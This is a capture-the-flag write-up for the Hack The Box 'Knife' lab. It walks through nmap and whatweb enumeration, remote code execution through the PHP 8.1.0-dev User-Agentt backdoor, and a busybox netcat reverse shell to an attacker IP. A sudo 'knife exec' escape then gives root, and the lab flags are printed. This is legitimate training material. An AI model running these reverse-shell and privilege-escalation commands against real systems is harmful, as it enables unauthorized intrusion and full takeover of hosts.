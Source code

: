 #+TITLE: Knife write up
#+AUTHOR: Wordir

** Introduction:
*Knife* is an easy linux machine of hack the box, Below is the guide on how to exploit it.


* Enumeration


First we will use the *ping* command to see if the target host responds to us:

#+begin_bash bash
ping 10.10.10.242   
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=42.2 ms
64 bytes from 10.10.10.242: icmp_seq=2 ttl=63 time=41.9 ms
64 bytes from 10.10.10.242: icmp_seq=3 ttl=63 time=42.0 ms
#+end_bash


yep, now it's time to run an *nmap* scan on our target to see what ports it has open


** nmap:

we perform a pretty basic scan with *nmap*


#+begin_bash bash
sudo nmap -sC -sV -O  10.10.10.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 07:29 EDT
Nmap scan report for 10.10.10.242
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/29%OT=22%CT=1%CU=38587%PV=Y%DS=2%DC=I%G=Y%TM=6606
OS:A630%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53C
OS:ST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.08 seconds
#+end_bash


as we can see we have port 80(http) and port 22(ssh), let's start with the enumeration of *port 80*

** http://10.10.10.242:

taking a look at the web page itself, it appears to be a *static page*, nothing is interactable,
also the code doesn't seem to be anything special.

so now it' time to use *whatweb* an open source web technology discovery tool designed
to gather information about a website by analyzing its HTTP responses.

#+begin_bash bash  
whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)],
IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
#+end_bash

php version seems to look old, so we must search some CVE about this version
and infact we found a CVE in exploit database:

*PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution*

now a quick explain , this *Poc* use a vulnerability, known as 'zerodiumvar_dump', allows for the execution of arbitrary PHP code.
It is important to note that this module specifically targets the PHP 8.1.0-dev version.
this work with maliciously crafted GET requests , by sending command in the user agent header

and here we go, we got a pseudo shell, and now it's time to get a real reverse shell:

* Exploit

#+begin_bash bash
./exp.py 
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ busybox nc 10.10.14.17 4444 -e sh
#+end_bash

** User flag

#+begin_bash bash
(remote) james@knife:/home/james$ cat user.txt 
abe228c25********************

#+end_bash


** Privilage escalation

once inside we first execute the command *sudo -l* , if it doesn't ask for the current user's password,
we will be able to see if we have any root permissions

#+begin_bash bash
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
#+end_bash


Let's do a quick search to see if there is any privilege escalation that exploits access to this command, and yep:

#+begin_bash bash
remote) james@knife:/home/james$ sudo knife exec -E 'exec "/bin/sh"'
\[\](remote)\[\] \[\]root@knife\[\]:\[\]/home/james\[\]$ whoami
root
\[\](remote)\[\] \[\]root@knife\[\]:\[\]/home/james\[\]$ cd /root
\[\](remote)\[\] \[\]root@knife\[\]:\[\]/root\[\]$ cat root.txt
0ff1ce3c4e1f2ee9dd4ce9798ad55aec
\[\](remote)\[\] \[\]root@knife\[\]:\[\]/root\[\]$ 
#+end_bash


we got the root flag
